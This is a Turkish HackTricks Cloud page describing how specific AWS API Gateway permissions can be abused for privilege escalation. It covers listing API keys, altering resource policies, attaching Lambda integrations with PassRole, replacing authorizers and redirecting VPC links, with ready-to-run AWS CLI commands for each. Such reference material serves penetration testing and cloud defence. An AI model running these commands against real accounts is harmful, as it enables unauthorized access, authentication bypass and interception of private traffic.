 # AWS - Apigateway Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-hizmetleri/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-hizmetleri/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle yapılandırılmış API'lerin (bölgeye göre) API anahtarlarını oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Potansiyel Etki:** Bu teknikle bir ayrıcalık yükseltemezsiniz, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:GET`

Bu izinle yapılandırılmış API'ların (bölgeye göre) oluşturulan API anahtarlarını alabilirsiniz.
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potansiyel Etki:** Bu teknikle bir ayrıcalık yükseltemezsiniz, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle bir API'nin kaynak politikasını değiştirmek mümkündür, böylece API'yi çağırmak ve API ağ geçidinin sahip olabileceği potansiyel erişimi kötüye kullanmak mümkün olabilir (örneğin, zafiyete sahip bir lambda işlevini çağırmak).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potansiyel Etki:** Genellikle, bu teknikle doğrudan bir ayrıcalık yükseltme yapamazsınız, ancak hassas bilgilere erişebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **bir IAM rolüne bağlı olan bir Lambda işlevi ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda işlevini tetikleyerek keyfi kodu yürütebilir ve IAM rolü ile ilişkili kaynaklara erişim elde edebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekmektedir.
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilendiricisini** değiştirerek güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında keyfi kodu çalıştırabilir.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Güvenlik kontrollerini atlatma, API kaynaklarına izinsiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını değiştirerek özel API trafiğini yetkisiz veya zararlı kaynaklara yönlendirebilir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Yetkisiz erişimle özel API kaynaklarına erişim, API trafiğinin dinlenmesi veya kesintiye uğratılması.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

